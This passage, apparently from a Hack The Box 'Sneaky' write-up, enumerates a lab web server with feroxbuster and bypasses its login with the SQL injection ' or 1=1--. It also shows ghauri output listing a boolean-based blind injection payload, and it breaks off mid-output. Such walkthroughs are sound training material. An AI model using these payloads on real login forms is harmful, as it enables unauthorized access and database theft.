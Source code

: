 Here is the default webpage.

![webpage](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Sneaky/webpage.png?raw=true)

```bash
❯ feroxbuster -u 'http://10.10.10.20' --auto-tune
301      GET        9l       28w      307c http://10.10.10.20/dev => http://10.10.10.20/dev/
200      GET      142l      758w    47908c http://10.10.10.20/underdev.gif
...
```

![dev_webpage](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Sneaky/dev_webpage.png?raw=true)

Using a simple basic SQLi in the password field logged us into the dashboard.

```sql
' or 1=1--
```

![dev_webpage_logged_in](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Sneaky/dev_webpage_logged_in.png?raw=true)

>   We could also use `ghauri` to automate this and dump the database.
>
>   ```bash
>   ❯ ghauri -r req
>   ...
>   POST parameter 'name' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
>   
>   Ghauri identified the following injection point(s) with a total of 105 HTTP(s) requests:
>   ---
>   Parameter: name (POST)
>       Type: boolean-based blind
>       Title: OR boolean-based blind - WHERE or HAVING clause
>       Payload: name=a' OR 04300=4300 OR '04586'='4586--&pass=a